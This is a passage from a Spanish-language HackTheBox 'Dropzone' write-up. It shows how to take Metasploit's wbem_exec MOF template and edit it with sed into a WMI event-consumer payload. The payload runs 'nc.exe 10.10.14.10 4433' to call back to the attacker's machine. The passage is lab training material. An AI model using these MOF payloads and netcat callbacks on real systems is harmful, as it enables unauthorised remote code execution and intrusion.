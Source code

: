 Donde toma como argumentos, el nombre que le queremos poner al archivo `.mof` y el nombre del archivo `.exe`... Dando clic sobre la función, nos muestra:

> Defined in `lib/msf/core/exploit/wbem_exec.rb`.

Y si ahora damos clic sobre esa referencia llegamos a la fuente del archivo [wbem_exec.rb](https://github.com/rapid7/metasploit-framework/blob/882c2722af5e0cec988baeb5945c9066fec1e7ca/lib/msf/core/exploit/wbem_exec.rb#L17):

![139google_wbemEXECrb](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139google_wbemEXECrb.png)

Oko, dándole vueltas al archivo, vemos que el contenido del objeto `.mof` está dentro de la variable **mof** e indica su fin cuando encuentra la cadena *EOT*, entonces, tomemos tooodas esas líneas y copiémoslas a un archivo de nuestro sistema `.mof`.

```bash
❱ wc -l payload.mof 
62 payload.mof
```

Vemos varias partes donde toma valores de variables, modifiquemos esas partes para alojar **nuestros** valores:

<span style="color: red">**@EXE@**</span>: que es donde va el nombre del archivo `.exe`, cambiémoslo por `nc.exe`:

![139bash_sed_EXE_2_ncEXE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139bash_sed_EXE_2_ncEXE.png)

En la instrucción número **1**, buscamos la cadena **@EXE@** en el payload, es la número **2** buscamos la cadena **nc.exe**, como no hay match nos responde con error y en la número **3** jugamos con [sed](https://www.ochobitshacenunbyte.com/2019/05/28/uso-del-comando-sed-en-linux-y-unix-con-ejemplos/) para jugar con el contenido del archivo, donde yo creo que la mayoría se entiende y la duda puede estar en la `g`, ella le indica a **sed** que haga el remplazo en todos los matchs que encuentre.

**Para decirle que haga el cambio permanente, le tenemos que indicar el parámetro `-i` a** sed **(:**

Ahora en esta instancia, `Instance of ActiveScriptEventConsumer as $cons`, modificamos la línea donde esta `nc.exe` para que nos haga una petición a nuestra máquina:

```mof
...
ScriptText = ...ns.Run(\\"nc.exe 10.10.14.10 4433\\");} catch...
...
```

:)

<span style="color: red">**#{mofname}**</span>: acá va el nombre del objeto `.mof`:

```bash
❱ sed -i 's/#{mofname}/payload.mof/g' payload.mof
```

<span style="color: red">**@CLASS@**</span>: que al parecer toma el valor de la clase, pongamos cualquiera:

```bash
❱ sed 's/@CLASS@/eAcabo/g' payload.mof | grep -n eAcabo
2:class MyClasseAcabo
29:  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"nc.exe\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClasseAcabo\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
40:  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClasseAcabo\\"";
59:instance of MyClasseAcabo as $MyClass
```
